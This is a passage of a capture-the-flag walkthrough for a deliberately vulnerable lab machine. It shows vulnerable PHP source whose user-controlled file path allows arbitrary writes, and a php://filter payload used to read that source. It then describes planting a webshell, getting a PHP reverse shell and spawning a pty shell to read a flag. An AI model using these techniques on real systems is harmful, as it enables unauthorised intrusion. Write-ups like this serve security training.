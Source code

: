 Decode with base64 and then got the source code:

```shell
<?php

$file="graffiti.txt";
if($_SERVER['REQUEST_METHOD'] == 'POST') {
    if (isset($_POST['file'])) {
       $file=$_POST['file'];
    }
    if (isset($_POST['message'])) {
        $handle = fopen($file, 'a+') or die('Cannot open file: ' . $file);
        fwrite($handle, $_POST['message']);
	fwrite($handle, "\n");
        fclose($file); 
    }
}

// Display file
$handle = fopen($file,"r");
while (!feof($handle)) {
  echo fgets($handle);
  echo "<br>\n";
}
fclose($handle);
?>
```

We fill the `file` parameter with `php://filter/read=convert.base64-encode/resource=graffiti.php`, and we got the source code of `graffiti.php`.

### 2. Upload the webshell

In the source code of `graffiti.php`, we can find that the `$file` variable with replaced with the POST's parameter `file`, and then write the `message` we inputed into the `file`. So, we can use it write a webshell here:

![image-20231115144010659](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311151440825.png)

And then connect it with AntSword:

![image-20231115144659387](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311151446555.png)

### 3. Get the reverse shell

And then we user a php reverse shell to get shell:

![image-20231115150726321](https://raw.githubusercontent.com/AlexsanderShaw/BlogImages/main/img/2023/202311151507489.png)

And then switch the shell by python:

```shell
$ python3 -c 'import pty;pty.spawn("/bin/bash")';
www-data@morpheus:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@morpheus:/$ ls
ls
FLAG.txt  boot	dev  home  lib32  libx32      media  opt   root  sbin  sys  usr
bin	  crew	etc  lib   lib64  lost+found  mnt    proc  run	 srv   tmp  var
www-data@morpheus:/$ cat FLAG.txt
cat FLAG.txt
Flag 1!

You've gotten onto the system.  Now why has Cypher locked everyone out of it?

```